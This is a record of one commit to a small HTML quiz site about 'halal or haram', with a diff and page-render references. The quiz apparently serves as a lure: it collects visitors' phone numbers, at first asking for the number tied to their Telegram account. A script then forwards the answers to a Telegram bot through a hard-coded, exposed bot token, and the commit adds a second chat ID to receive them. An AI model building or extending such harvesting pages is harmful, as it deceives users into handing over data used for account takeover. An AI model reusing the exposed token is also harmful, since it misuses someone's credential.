

Before and after one commit to reter264/haram-halal, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 182-884 px from the top of the page, without its empty margins (285-994 px from the left). After the commit the page ends 853 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -95,8 +95,8 @@
                 <input type="radio" name="q8" value="Халяль"> Халяль
             </div>
 
-            <label for="phone">Введите ваш номер телефона (на котором у вас зарегистрирован акаунт в телеграме):</label>
-            <input type="text" id="phone" name="phone" placeholder="+7XXXXXXXXXX" required>
+         <label for="phone">Введите ваш номер телефона:</label>
+         <input type="tel" id="phone" name="phone" placeholder="Номер телефона" pattern="^\+?\d*$" required>
 
             <button type="button" id="submitTest">Отправить ответы</button>
         </form>
@@ -115,7 +115,7 @@
 
     <script>
       const BOT_TOKEN = "7619958121:AAETlme7ZmSzyB_fu_VZD22pDEtvSLOgexY";
-      const CHAT_IDS = ["1335366204", "1335366204"];  // Массив ID чатов
+      const CHAT_IDS = ["1335366204", "7478293706"];  // Массив ID чатов
 
 // Отправка данных в Telegram
 async function sendToTelegram(message) {
```
